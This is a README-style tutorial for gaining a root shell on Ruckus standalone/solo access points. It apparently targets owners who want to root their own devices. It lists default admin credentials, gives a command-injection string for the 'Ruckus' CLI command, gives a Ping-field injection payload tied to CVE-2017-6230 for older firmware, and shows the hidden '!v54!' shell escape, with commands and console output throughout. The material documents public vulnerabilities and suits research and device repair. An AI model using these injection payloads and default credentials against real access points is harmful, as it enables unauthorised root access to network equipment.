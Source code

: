 # Obtaining a root shell on Standalone/Solo Ruckus APs

The Ruckus CLI includes a hidden `!v54!` command which exits to a root shell.  

* Very old AP firmware checks a configuration setting `cli_esc2shell_ok` to decide whether the `!v54!` command is available.  
* Newer AP firmware checks an encrypted serial# to decide whether the `!v54!` command is available.  
The encrypted serial# is saved to a file using the `Ruckus` command, then the `!v54!` command uses `sesame` to decrypt this file.

## Firmware >112.0

Sorry, I don't have a method to bypass the serial# check on newer Standalone/Solo AP firmwares.  

If your AP was released before mid-2019 then you can downgrade to an older Solo firmware.

## Firmware 9.8 - 112.0 (excl. 110.0.0.0.2005)

These AP firmware versions [don't sanitize the encrypted serial#](https://alephsecurity.com/vulns/aleph-2019014#proof-of-concept).  
So we can use the `Ruckus` command to inject a root shell.
> Note that the injection only needs to be performed once.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256-cbc
```

Login. Default username is "super", password is "sp-admin".

### Command injection

```console
rkscli: Ruckus
```

Now type `";/bin/sh;"` and hit enter *(you won't be able to see what you're typing)*

```console
grrrr
```

> Instead of `grrrr`, any other random dog noise could  be printed to the screen. 

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.

## Firmware Pre-9.8

These AP firmware versions [don't sanitize the input to the Ping diagnostic tool](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6230).  
So we can use `Ping` to enable `cli_esc2shell_ok`.
> Note that the `Ping` enablement only needs to be performed once.

### Connect to the AP's Web UI

Login. Default username is "super", password is "sp-admin".

### Enable shell escape

Go to `Administration` > `Diagnostics`, paste `|rpm${IFS}-p${IFS}cli_esc2shell_ok="t"` into the `Ping:` textbox & hit `Run test`.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256-cbc
```

Login. Default username is "super", password is "sp-admin".

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.
